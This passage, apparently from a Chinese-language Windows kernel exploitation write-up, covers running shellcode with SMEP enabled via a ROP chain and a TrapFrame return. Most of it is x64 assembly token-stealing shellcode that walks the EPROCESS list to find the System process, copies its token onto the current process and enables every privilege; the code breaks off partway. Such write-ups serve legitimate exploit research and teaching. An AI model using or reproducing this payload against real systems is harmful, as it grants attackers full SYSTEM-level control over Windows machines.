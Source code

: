 在设置`CR4.SMEP`的情况下，依靠内核分配的内存，成功运行了 shellcode，ROP 链进行了多次调用，让最后 shellcode 中的`rsp`值不好估计，并且栈的情况可能随着函数的调用将原有的值抹去，**这里先把 shellcode 换成从 TrapFrame 返回的**

[![](assets/1706090578-2035679b1953d9226e343001e2649a64.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124145419-65739dea-ba85-1.png)

### C. 优化 shellcode

所以这段 shellcode 参考 shellcode 编写的 C、D 部分，加上了所有功能 Enabled 的 shellcode 片段

```bash
[Bits 64]

_start:    
    xor rax, rax
    mov rax, gs:[rax + 0x188]
    mov rax, [rax + 0xb8]     ;rax = 当前EPROCESS
    mov r9, rax               ;r9  = 当前EPROCESS
    mov rax, [rax + 0x448]    ;rax = 当前EPROCESS.List
    mov rax, [rax]            ;rax = 当前EPROCESS.List->flink

__loop:
    mov rdx, [rax - 0x8]      ;rdx = 上一个进程的 upid
    mov r8, rax               ;r8  = 当前 EPROCESS.List->flink
    mov rax, [rax]            ;rax = 上一个进程的.List
    cmp rdx, 0x4
    jnz __loop

    ;rdx = 4
    ;r8 = System EPROCESS

    mov rdx, [r8+0x70]      ;rdx = system token
    and rdx, -0x8           ;消除低4位
    mov rcx, [r9+0x4b8]     ;当前EPROCESS的token
    and rcx, 0x7            ;
    add rdx, rcx            ;rdx = 系统token高位+当前token低4位
    mov [r9+0x4b8], rdx     ;将合成的token复制给当前

    ;Enable ALL
    mov rdx, [r8 + 0x70]      ;rdx = system token
    and rdx, 0xFFFFFFFFFFFFFFF0           ;system token: 消除低8位，便于解析Token
    mov rbx, [rdx + 0x40]     ;rbx = System token的Present
    mov rcx, [r9 + 0x4b8]     ;rcx = 新的EPROCESS的token
    and rcx, 0xFFFFFFFFFFFFFFF0           ;new current token: 消除低8位，便于解析Token
    mov [rcx + 0x40], rbx
    mov [rcx + 0x48], rbx

    mov     rax, gs:188h
```